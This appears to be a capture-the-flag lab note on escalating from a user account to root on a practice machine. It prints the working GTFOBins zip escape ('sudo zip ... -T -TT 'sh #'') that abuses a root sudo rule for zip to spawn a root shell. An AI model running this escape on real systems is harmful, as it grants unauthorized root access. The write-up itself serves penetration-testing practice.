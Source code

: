 - We got access to JeanPaul in [[JeanPaul user escalation]]
- Let's enumerate:

# sudo -l
---
- Manual enumeration gave `jp` can run `/usr/bin/zip` as root
- ![[Pasted image 20250325143522.png]]
- On [gtfobins](https://gtfobins.github.io/gtfobins/zip/), found that we can maintain `root` privs if we can run `zip` as root:
```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```
- Got `root`:
![[Pasted image 20250325143747.png]]
- `root` flag:
![[Pasted image 20250325143820.png]]